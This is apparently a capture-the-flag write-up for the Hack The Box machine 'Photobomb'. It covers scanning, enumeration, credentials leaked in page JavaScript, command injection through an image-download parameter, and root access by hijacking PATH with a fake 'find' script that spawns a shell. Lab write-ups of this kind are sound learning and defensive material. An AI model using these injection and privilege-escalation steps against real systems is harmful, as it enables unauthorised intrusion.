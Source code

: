 # Photobomb
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/8775d37c-91c2-43fb-bddd-36da3cca479d"></img>
</div>

Welecome back, today  we will see an hackthebox machine called Photobomb
Let’s start out with a usual nmap scan.

```diff
# Nmap 7.92 scan initiated Fri Oct 21 09:54:09 2022 as: nmap -sC -sV -oN phtbomb_nmap.txt 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 21 09:54:18 2022 -- 1 IP address (1 host up) scanned in 9.20 seconds
```

As always there’s the web page that we can visit.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/ebbfb934-a583-431c-8a03-7a1f2801fdff"></img>

Nothing cool here unless a link which needs credentials to login.

By the way we can try to use gobuster

```cpp
┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Photobomb]
└─$ gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt -u http://photobomb.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/21 09:56:38 Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 273]
/]                    (Status: 400) [Size: 273]
/favicon.ico          (Status: 200) [Size: 10990]
/plain]               (Status: 400) [Size: 278]  
/printer              (Status: 401) [Size: 188]  
/printer-friendly     (Status: 401) [Size: 188]  
/printer_friendly     (Status: 401) [Size: 188]  
/printerfriendly      (Status: 401) [Size: 188]  
/printers             (Status: 401) [Size: 188]  
/quote]               (Status: 400) [Size: 278]  
                                                 
===============================================================
2022/10/21 09:58:27 Finished
==============================================================
```

There are a few folders which are useless because they need  a password to visit them, but if we look at the source code we can spot an unusual link

```jsx
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

By following the given path it set for us the credentials that will be necessary to login into the printer page.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6869064b-a1aa-4ab9-8f20-28b108ef1487"></img>

At the moment we can’t find anything, but if throw an error by trying to find something that doesn’t exist into the url we get this message

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1bffd86a-4dec-4576-b8bb-edcf76f7b7b7"></img>

This is the error message for the Sinatra Web-Framework which is vulnerable to directory trasversal, as we an see from this post [snyk](https://security.snyk.io/vuln/SNYK-RUBY-SINATRA-22017)

Even if we follow the idea of the Exploit it won't work but we still have the image downloader. So let’s take the request with burpsuite and try to inject some args

With the first we can’t do anything while with the second we are able to add others extensions to the file and get strange results

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/29d23de5-6e1d-4606-97aa-546cccce57ff"></img>

And here is the result

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/bcaddcdb-d85a-441b-89b1-2ef4cdddba9f"></img>

As you can see we are able to specify the output of how the image which gets printed 

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/054c0f62-f92d-4680-a6aa-9c84b5268a88"></img>

Now while fuzzing we find that there are two useful characters which are the `;` and the `|` that are the character to run more commands in a shell.

Here is an example.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b83f82f4-5200-4770-b73c-22a0d91cc8ab"></img>

So now we have to manage a way to get a reverse shell.

Because we are able to run bash commands we can make it tale our php rev-shell from us

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b24d037a-3197-48d3-811a-7331731fdcf4"></img>

Now the only problem is that we have to find where our shell is. By injecting as command `python3 -m http.server` we can see that we are here

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/c7dd0f9d-64bd-4399-9866-c9d222686a10"></img>

So as you can see we have found the rev-shell but if we simply call it trough the URL we are no able to run it, this probably means that php is not installed, so thi was definetly a rabbit hole.

By the way before i forgot to try running a rev-shell with python, which turned out to be the solution.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1824ea49-21cd-4a49-800e-c0b3e99461c52"></img>

And here's why we couldn’t execute our rev-shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/d5b1ae4f-8d80-41d2-a3c1-484c1f3b4f3d"></img>

The php command was not installed.

By the way, we got the shell and now we can grab the user flag.

```python
wizard@photobomb:~$ cat user.txt
589b2daea8041e50dfd59a92c86783e7
wizard@photobomb:~$
```

# Root.txt

Here we are at the funniest part where we have to become root.
As always the first thing i do is checking for some privileges with `sudo -l`

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/43ab949a-444d-45c2-87b5-71a301f26621"></img>

Here is an interesting one because we can run a file called `/opt/cleanup.sh` as root

```bash
wizard@photobomb:/opt$ cat cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

If we look closely we can spot a command which gets runned without specifying its full PATH or `find`, so we just need to create an executable called `find` into the tmp folder that call a bash, adn then change the PATH with tmp as first folder.

Like this when the code will be ran as root it will execute not the real find but our find which is a shell spawner.

```bash
wizard@photobomb:/tmp$ cat find
#!/usr/bin/python3
import os
import sys 

try:
    os.system("/bin/sh")
except:
    os.exit()
```

Know we have to change the PATH

```bash
wizard@photobomb:/tmp$ export PATH=/tmp:$PATH
```

Like this when we run `find` we get a shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/190f966f-eb82-4011-ad38-aa676fe25722"></img>

Now we need to run it trough the file as sudo

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/30240213-f9cc-41c7-b72e-10e609c8b455"></img>

Mhhmm... It doesn't work, because it even export the curren PATH, but the sudo says that we can not only run as root the program but even set the env variables run-time, so just pipe all togheter

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/794ebfd2-0953-43d9-b75e-f6fe5fb19613"></img>

And.... It worked so now we can fetch the root flag!

```bash
root@photobomb:~# cat root.txt 
60a8c867e31611a23dc277dcec2de33c
root@photobomb:~#
```

We did it!
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3ce0a554-60dc-4475-8498-c9985b800e7f"></img>
</div>

Thanks for the attention 0xCY@
